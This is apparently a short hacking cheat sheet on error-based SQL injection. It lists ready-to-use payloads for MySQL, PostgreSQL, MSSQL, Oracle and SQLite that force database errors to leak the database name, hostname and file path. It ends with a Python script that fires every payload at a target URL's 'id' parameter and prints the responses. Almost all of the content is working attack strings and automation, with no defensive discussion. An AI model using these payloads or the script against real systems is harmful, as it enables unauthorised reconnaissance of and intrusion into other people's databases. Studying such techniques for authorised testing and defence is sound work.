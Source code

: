 ```yaml
---
title: "Extracting DB Name with Forced Errors"
tags: ['Hacking', 'SQLi']
date: 2024-10-03
toc: true
unlisted: true
author: 'Ren'
authorlink: 'https://about.0x0060.dev/'
---
```


## MySQL

### Extracting DB Name

Use error-based injection to extract the database name.

```
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) --
```

### Extracting Hostname

Use error-based injection to extract the hostname.

```
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT @@hostname), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) --
```

## PostgreSQL

### Extracting Database Name

Use error-based injection to extract the current database name.

```
' AND 1=CAST((SELECT current_database()) AS INT) --
```

### Extracting Hostname

PostgreSQL does not directly provide a function for hostname, but you can use other metadata queries or built-in extensions like `inet_server_addr`.

```
' AND 1=CAST((SELECT inet_server_addr()) AS INT) --
```

## MSSQL

### Extracting Database Name

Use error-based injection to extract the current database name.

```
; SELECT 1 WHERE 1=CAST(DB_NAME() AS INT) --
```

### Extracting Hostname

Use error-based injection to extract the server hostname.

```
; SELECT 1 WHERE 1=CAST(@@servername AS INT) --
```

## Oracle

### Extracting Database Name

Use error-based injection to extract the current database name.

```
' UNION SELECT NULL FROM dual WHERE 1=CAST((SELECT ora_database_name FROM dual) AS INT) --
```

### Extracting Hostname

Use error-based injection to extract the hostname.

```
' UNION SELECT NULL FROM dual WHERE 1=CAST((SELECT SYS_CONTEXT('USERENV', 'HOST') FROM dual) AS INT) --
```

## SQLite

### Extracting Database Name

SQLite uses a single database per file, but you can force errors to reveal database-related information.

```
' AND 1=CAST((SELECT name FROM sqlite_master WHERE type='table' LIMIT 1) AS INT) --
```

### Extracting Hostname

SQLite does not inherently have a hostname since it’s a file-based database. However, you can infer file paths which might give clues.

```
' AND 1=CAST((SELECT file FROM pragma_database_list LIMIT 1) AS INT) --
```

## Python Script to Automate the Process

Automate the error extraction process:

```
import requests

url = "http://example.com/vulnerable.php"
payloads = [
    # MySQL
    "' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- ",
    "' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT @@hostname), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- ",
    # PostgreSQL
    "' AND 1=CAST((SELECT current_database()) AS INT) -- ",
    "' AND 1=CAST((SELECT inet_server_addr()) AS INT) -- ",
    # MSSQL
    "; SELECT 1 WHERE 1=CAST(DB_NAME() AS INT) -- ",
    "; SELECT 1 WHERE 1=CAST(@@servername AS INT) -- ",
    # Oracle
    "' UNION SELECT NULL FROM dual WHERE 1=CAST((SELECT ora_database_name FROM dual) AS INT) -- ",
    "' UNION SELECT NULL FROM dual WHERE 1=CAST((SELECT SYS_CONTEXT('USERENV', 'HOST') FROM dual) AS INT) -- ",
    # SQLite
    "' AND 1=CAST((SELECT name FROM sqlite_master WHERE type='table' LIMIT 1) AS INT) -- ",
    "' AND 1=CAST((SELECT file FROM pragma_database_list LIMIT 1) AS INT) -- ",
]

for payload in payloads:
    response = requests.get(url, params={"id": payload})
    print(f"Payload: {payload}")
    print(f"Response: {response.text}\n") 
```
